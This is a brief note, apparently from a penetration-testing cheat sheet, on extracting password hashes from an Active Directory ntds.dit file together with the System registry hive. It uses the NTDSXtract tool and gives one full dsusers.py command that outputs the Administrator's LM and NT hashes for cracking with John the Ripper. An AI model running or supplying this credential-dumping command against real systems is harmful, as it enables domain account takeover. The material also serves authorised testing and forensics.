

"Just" need:
ntds.dit
System hive
NTDSXtract: http://www.ntdsxtract.com
python dsusers.py ntds.dit.export/datatable.4 ntds.dit.export/link_table.7 ./work --name Administrator --syshive System --supplcreds --passwordhashes --lmoutfile ./lm --ntoutfile ./nt --pwdformat john
